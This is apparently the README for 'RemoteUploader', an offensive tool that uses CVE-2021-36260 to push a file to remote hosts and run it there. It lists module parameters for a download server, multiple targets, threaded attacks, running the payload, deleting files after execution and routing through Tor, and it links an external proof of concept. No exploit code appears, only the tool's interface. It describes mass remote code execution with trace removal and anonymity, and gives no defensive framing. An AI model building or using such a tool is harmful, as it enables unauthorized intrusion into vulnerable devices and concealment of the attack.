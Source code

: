 # RemoteUploader

Upload to a specific web server and run remotely

# Details of this vulnerable
        
1: check()
        rhosts={target_host}
        rports={target_port}
                
https://github.com/TakenoSite/Simple-CVE-2021-36260
       


# Module

1: RemoteUploader.ServerModule()

        lport:int, # Pleass 0x01 ~ 0xff in range  
        lhost:str, # Your IP address 
        Path:str   # File path


2: RemoteUploader.UploadModule()

        lhost:str,       # Local IP or Global IP
        lport:int,       # Download server port
        rhost:list,      # Target rhost in list only 
        rport:int,       # Target port
        ThreadNum=1,     # Thread enabled for multiple targets
        execution=False, # True if it is an executable 
        delete=False,    # Delete files after execution
        Tor=False        # Tor Netwoek 
        
